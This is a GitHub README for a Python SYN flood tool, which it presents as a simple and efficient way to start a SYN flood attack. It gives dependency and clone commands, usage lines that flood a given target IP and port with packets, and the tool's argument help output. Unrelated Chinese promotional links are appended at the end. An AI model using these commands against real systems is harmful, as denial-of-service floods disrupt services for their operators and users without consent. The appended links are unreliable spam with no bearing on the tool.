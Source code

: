 # Python2/3-SYN-Flood-Attack-Tool

[![](https://img.shields.io/github/issues/EmreOvunc/Python-SYN-Flood-Attack-Tool)](https://github.com/EmreOvunc/Python-SYN-Flood-Attack-Tool/issues)
[![](https://img.shields.io/github/stars/EmreOvunc/Python-SYN-Flood-Attack-Tool)](https://github.com/EmreOvunc/Python-SYN-Flood-Attack-Tool/stargazers)
[![](https://img.shields.io/github/forks/EmreOvunc/Python-SYN-Flood-Attack-Tool)](https://github.com/EmreOvunc/Python-SYN-Flood-Attack-Tool/network/members)

Python SYN Flood Attack Tool

You can start SYN Flood attack with this tool.

Simple and efficient.

## Dependencies
```
apt install python-scapy
apt install python3-scapy
```

## Installation

```
git clone https://github.com/EmreOvunc/Python-SYN-Flood-Attack-Tool.git
cd Python-SYN-Flood-Attack-Tool
```

## Usage

```
python3 py3_synflood_cmd.py -t 10.20.30.40 -p 8080 -c 5
python3 py3_SYN-Flood.py
python SYN-Flood.py
```
```
usage: py3_synflood_cmd.py [-h] [--target TARGET] [--port PORT]
                           [--count COUNT] [--version]

optional arguments:
  -h, --help            show this help message and exit
  --target TARGET, -t TARGET
                        target IP address
  --port PORT, -p PORT  target port number
  --count COUNT, -c COUNT
                        number of packets
  --version, -v         show program's version number and exit

Usage: python3 py3_synflood_cmd.py -t 10.20.30.40 -p 8080 -c 1
```

![alt tag](https://emreovunc.com/projects/python_synflood_attack_cmd.png)

![alt tag](https://emreovunc.com/projects/Syn_Flood_01.png)

![alt tag](https://emreovunc.com/projects/Syn_Flood_02.png)


 # 良心友情链接

[腾讯QQ群快速检索](http://u.720life.cn/s/8cf73f7c)

[软件免费开发论坛](http://u.720life.cn/s/bbb01dc0)